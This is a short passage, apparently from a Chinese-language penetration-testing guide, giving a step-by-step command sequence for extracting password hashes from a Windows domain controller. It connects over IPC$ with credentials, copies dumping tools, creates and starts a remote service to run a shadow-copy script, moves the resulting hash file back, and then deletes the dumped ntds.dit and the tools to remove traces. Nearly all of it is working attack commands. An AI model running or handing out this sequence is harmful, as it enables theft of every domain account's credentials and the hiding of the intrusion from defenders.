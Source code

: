 ![](./pic/5/11.jpg)  

3、实战中hash导出流程  
```
>1.建立ipc$连接
>`net use \\DC1\c$ password /user:username`  
>2.复制文件到DC
>`copy .\* \\DC1\windows\tasks`  
>3.sc建立远程服务启动程序  
>`sc \\DC1 create backupntds binPath= "cmd /c start c:\windows\tasks\shadowcopy.bat" type= share start= auto error= ignore DisplayName= BackupNTDS`  
>4.启动服务  
>`sc \\DC1 start backupntds`  
>5.删除服务  
>`sc \\DC1 delete backupntds`  
>6.讲hash转移到本地  
>`move \\DC1\c$\windows\tasks\hash.txt .`  
>7.删除记录文件  
>`del \\DC1\c$\windows\tasks\ntds.dit \\DC1\c$\windows\tasks\QuarksPwDump.exe \\DC1\c$\windows\tasks\shadowcopy.bat \\DC1\c$\windows\tasks\vshadow.exe`  
```